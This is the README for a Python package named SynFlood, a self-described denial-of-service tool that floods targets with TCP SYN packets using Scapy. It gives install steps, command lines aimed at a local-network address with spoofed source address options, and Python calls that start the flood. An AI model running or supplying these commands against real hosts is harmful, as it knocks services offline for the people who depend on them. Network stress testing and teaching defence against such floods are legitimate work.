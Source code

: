 # SynFlood

## Description
This package implement a DOS (Denial Of Service) tool in python (SYN Flood).

## Requirements
This package require : 
 - python3
 - python3 Standard Library
 - Scapy

## Installation
```bash
pip install SynFlood 
```

## Examples

### Command lines
```bash
SynFlood -h
SynFlood --dport 445 192.168.1.2
SynFlood --dport 80 --source 192.168.1.3 --sport 53545 --data "SYN FLOOD" 192.168.1.2
```

### Python3
```python
from SynFlood import launcher, synflood
synflood() # This function raise OSError some times
launcher() # This function except OSError and stop SYN flooding on KeyboardInterrupt Error
```

## Link
[Github Page](https://github.com/mauricelambert/SynFlood)

## Licence
Licensed under the [GPL, version 3](https://www.gnu.org/licenses/).
